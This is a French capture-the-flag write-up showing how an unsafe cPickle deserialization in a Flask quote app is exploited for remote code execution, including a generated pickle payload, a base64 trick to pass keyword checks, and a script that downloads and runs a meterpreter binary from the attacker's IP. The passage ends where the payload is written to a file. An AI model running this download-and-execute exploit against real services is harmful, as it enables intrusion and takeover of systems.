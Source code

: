 Ce qui saute aux yeux c'est l'utilisation de cPickle pour dé-sérialiser des données via *cPickle.loads*. En effet ces données étant sous notre contrôle (via soumission web) on peut les formater pour provoquer une exécution de commande distante (RCE).  

On trouve des projets tout fait pour générer des payloads prêts à l'emploi comme [evilPick](https://github.com/francescolacerenza/evilPick) et [evil-pickle](https://github.com/fhightower/evil-pickle) (je me suis tourné vers le premier).  

Cet outil demande qu'on lui passe un script Python qui sera ainsi sérialisé. A titre d'exemple la transformation de l'instruction *print("hello world")* génère le pickle suivant :  

```plain
ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwAAAAAAAAAAAQAAAEMAAABzCQAAAGQBAEdIZAAAUygCAAAATnMLAAAAaGVsbG8gd29ybGQoAAAAACgAAAAAKAAAAAAoAAAAAHMIAAAAPHN0cmluZz50AwAAAGZvbwEAAABzAgAAAAAB'
tRtRc__builtin__
globals
(tRS''
tR(tR.
```

Mais la soumission directe de ce pickle ne permettra pas d'exploiter la vulnérabilité pour autant.  

Le script Flask a en effet deux vérifications qui nécessitent d'être bypassées.  

Premièrement dans la méthode *submit()* le nom du personnage des *Simpsons* et sa citation sont récupérées. Le nom du personnage doit être valide et est vérifié parmi une whitelist via un simple *IN* insensible à la casse.  

Deuxièmement dans la méthode *check()* qui charge le contenu pour le désérialiser, le script vérifie d'abord la présence de la chaîne *p1*.  

Il semble compliqué (mais probablement pas impossible) d'intégrer des données dans la partie pickle puisque *evilPick* encode la totalité du script qu'on lui donne en base64...  

J'ai donc choisi la méthode qui consiste à faire en sorte que les mots clés attendus se trouvent dans le base64. On pourrait utiliser la force brute pour trouver des correspondances mais par tâtonnement ça fonctionne aussi.  

Ainsi *i3(y* donne *aTMoeQ==* en base64 qui contient Moe (le gérant du bar du même nom) et *iZua* donne *aVp1YQ==* qui contient le *p1*.  

Il est important de répéter ces patterns avec un padding pour être sûr que les chaînes souhaitées apparaissent quelque soit le reste du script.  

Mon exploit final (avec le payload intégré) ressemble alors à ceci :  

```python
import os

from hashlib import md5
import requests

ipv4 = os.popen("ip addr show tun0").read().split("inet ")[1].split("/")[0]
print("Generating down-exec payload with IP", ipv4)
payload = """import os
import urllib
print('pi3(ypi3(ypi3(ypi3(yiZuaiZuaiZuaiZu')
urllib.urlretrieve("http://{}/devloop_meterpreter", "/tmp/devloop_meterpreter")
os.system("chmod 777 /tmp/devloop_meterpreter;/tmp/devloop_meterpreter &")
""".format(ipv4)

with open("download_execute.py", "w") as fd:
    fd.write(payload)

```